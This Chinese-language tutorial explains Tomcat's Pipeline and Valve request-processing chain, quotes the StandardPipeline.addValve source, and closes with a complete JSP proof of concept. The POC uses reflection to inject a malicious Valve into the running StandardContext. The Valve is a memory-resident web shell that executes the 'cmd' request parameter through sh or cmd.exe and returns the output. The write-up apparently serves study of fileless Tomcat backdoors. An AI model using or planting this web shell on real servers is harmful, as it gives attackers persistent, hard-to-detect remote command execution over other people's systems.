

# 0x01 Tomcat Pipeline Mechanism

当Tomcat接收到客户端请求时，首先通过`Connector`解析成`ServletRequest`，再发送到`Container`进行处理。

`Container`下面有四个子容器，Engine、Host、Context、Wrapper，这四个组件不是平行的，而是父子关系。

消息在这四个子容器中层层传递，最终发送给Servlet进行处理。这个过程就涉及到了Tomcat管道机制。

Pipeline：管道

Valve：阀门

我们传递的信息就像水流，在Pipeline里面流动。通过Valve，可以让水流流向不同的Pipeline，过滤水流的杂质。对比SpringMVC的拦截器，Pipeline 就相当于拦截器链，而Valve就相当于拦截器。



Pipeline 中会有一个最基础的 Valve（Basic），它始终位于末端（最后执行），它在业务上面的表现是封装了具体的请求处理和输出响应。

四大组件 Engine、Host、Context 以及 Wrapper 都有其对应的 Valve 类

- `StandardEngineValve`
- `StandardHostValve`
- `StandardContextValve`
- `StandardWrapperValve`

他们同时维护一个 StandardPipeline 实例

# 0x02 Analysis

下面分析的是Tomcat 9.0.20 ，Tomcat 8 可能会有稍微的差异。

Pipeline接口存在`addValve`方法，其实现类`StandardPipeline`实现了这个方法

`org.apache.catalina.core.StandardPipeline#addValve`

```java
public void addValve(Valve valve) {

    // Validate that we can add this Valve
    if (valve instanceof Contained)
        ((Contained) valve).setContainer(this.container);

    // Start the new component if necessary
    if (getState().isAvailable()) {
        if (valve instanceof Lifecycle) {
            try {
                ((Lifecycle) valve).start();
            } catch (LifecycleException e) {
                log.error(sm.getString("standardPipeline.valve.start"), e);
            }
        }
    }

    // 将Valve插入在Basic前一位
    if (first == null) {
        first = valve;
        valve.setNext(basic);
    } else {
        // 从first开始遍历，若下一个是basic，插入在前面
        Valve current = first;
        while (current != null) {
            if (current.getNext() == basic) {
                current.setNext(valve);
                valve.setNext(basic);
                break;
            }
            current = current.getNext();
        }
    }

    container.fireContainerEvent(Container.ADD_VALVE_EVENT, valve);
}
```

`org.apache.catalina.core.ContainerBase#getPipeline`用于获取当前容器的Pipeline

```java
/**
* Return the Pipeline object that manages the Valves associated with this Container.
*/
@Override
public Pipeline getPipeline() {
    return this.pipeline;
}
```

Valve接口定义了invoke方法

`public void invoke(Request request, Response response)`

只需在运行时向 Engine/Host/Context/Wrapper 这四种 Container 组件中的任意一个的pipeline 中插入一个我们自定义的 valve，在其中对相应的请求进行拦截并执行我们想要的功能。

前面的Filter内存马只对当前context 生效，而Valve 如果插到最顶层的container 也就是 Engine，则会对 Engine 下的所有的context 生效

之前用到的熟悉的`StandardContext`是`ContainerBase`的子类

因此先通过`StandardContext.getPipeline()`获取到`StandardPipeline`，再通过`StandardPipeline.addValve()`添加恶意Valve

# 0x03 POC

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="javax.servlet.*" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.PrintWriter" %>

<%
    class MyValve extends ValveBase {
        @Override
        public void invoke(Request request, Response response) throws IOException, ServletException {
            try {
                String cmd = request.getParameter("cmd");
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\a");
                String output = s.hasNext() ? s.next() : "";
                PrintWriter out = response.getWriter();
                out.println(output);
                out.flush();
                out.close();
            } catch (Exception e) {
            } } }%>

<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
    standardContext.getPipeline().addValve(new MyValve());
    out.println("inject success");
%>
```

